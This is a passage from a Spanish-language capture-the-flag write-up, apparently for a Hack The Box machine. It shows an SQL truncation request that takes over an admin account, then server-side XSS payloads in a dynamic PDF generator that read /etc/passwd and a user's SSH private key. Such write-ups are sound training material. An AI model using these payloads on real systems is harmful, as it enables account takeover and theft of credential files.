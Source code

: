 
Sabemos que hemos llegado al límite cuando dejar de aparecer el error cuando le damos a "send" en el burpsuite en este caso el límite es el siguiente: 

```
name=admin&email=admin%40book.htb++++++o&password=admin
```

Si recordamos, hemos dejado en segundo plano el login con el correo del admin y la password "admin", vamos a regresar y vamos a quitar ya el foxyproxy para poder entrar a la cuenta de admin. 

Y estamos dentro como admin.

<img src="http://drive.google.com/uc?export=view&id=1w42c1zRvIhHcoMw7YsqBpv_XkrcCKMSc">

Una vez estamos dentro dentro del panel de admin, lo que tenemos que hacer es dirigirnos a la pestaña de "Collections", en este apartado se generan pdf dinámicos donde podemos los nuevos elemntos que se añaden a la colección, como podemos ver aquí si lo decargamos. 

<img src="http://drive.google.com/uc?export=view&id=1_ps9h8XQUBTmzBD-p7h20o_tLpxlKnyf">

<img src="http://drive.google.com/uc?export=view&id=1I4MI6jKPXv8uq9J3szSWMaWt2vMP6hpY">

Vale una vez sabemos como funciona, vamos a añadir una nueva colección y vamos a aprovecharnos de un XSS en la Generación dinámica de PDF.

para esto nos dirigimos a hacktricks al siguiente enlace:

```
https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf
```
Y nos copiamos el siguiente payload:

```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(this.responseText)};
x.open("GET","file:///etc/passwd");x.send();
</script>
```
Y lo pegamos dentro del panel de usuario normal en la sección de collections

De esta manera obtenemos el fichero /etc/passwd, como vemos aquí:

<img src="http://drive.google.com/uc?export=view&id=1WwQk62_miRnev_7UrA6gR9tt5nzlIySI">

<img src="http://drive.google.com/uc?export=view&id=1qXsAU4g9wAYV1i3mMsF5s0Cp-unsJG_W">

<img src="http://drive.google.com/uc?export=view&id=18VF_9eLMxNkRleXlawlNdzI-VovfP33p">

Tenemos ahora un usuario llamado "reader"

Y si ponemos de la misma manera este otro payload obtenemos la clave id_rsa para conectarnos por ssh.


```javascript
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write("<pre>" + this.responseText + "</pre>")};
x.open("GET","file:///home/reader/ssh/id_rsa");x.send();
</script>
```
